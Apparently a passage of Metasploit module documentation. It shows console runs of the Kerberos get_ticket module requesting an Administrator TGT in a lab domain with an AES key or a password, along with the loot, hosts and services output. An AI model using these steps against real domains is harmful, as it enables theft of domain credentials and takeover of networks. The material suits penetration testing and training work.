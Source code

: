 ```msf
----            ---------                 -----                         ------                     ------  ----
192.168.123.13  Administrator@ADF3.LOCAL  krbtgt/ADF3.LOCAL@ADF3.LOCAL  2023-01-12 19:37:54 +0000  valid   /Users/usr/.msf4/loot/20230112193756_default_192.168.123.13_mit.kerberos.cca_131390.bin
 
msf auxiliary(admin/kerberos/get_ticket) > hosts

Hosts
=====

address          mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------          ---  ----  -------  ---------  -----  -------  ----  --------
10.0.0.24                   Unknown                    device

msf auxiliary(admin/kerberos/get_ticket) > services
Services
========

host             port  proto  name      state  info
----             ----  -----  ----      -----  ----
10.0.0.24        88    tcp    kerberos  open   Module: auxiliary/admin/kerberos/get_ticket, KDC for domain mylab.local
```

TGT with encryption key

```msf
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator AES_KEY=<redacted> action=GET_TGT
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGT for Administrator@mylab.local
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104182051_default_10.0.0.24_mit.kerberos.cca_535003.bin
[*] Auxiliary module execution completed
```

TGT with password

```msf
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator password=<redacted> action=GET_TGT
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGT for Administrator@mylab.local
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104182219_default_10.0.0.24_mit.kerberos.cca_533360.bin
[*] Auxiliary module execution completed
```

TGT with certificate
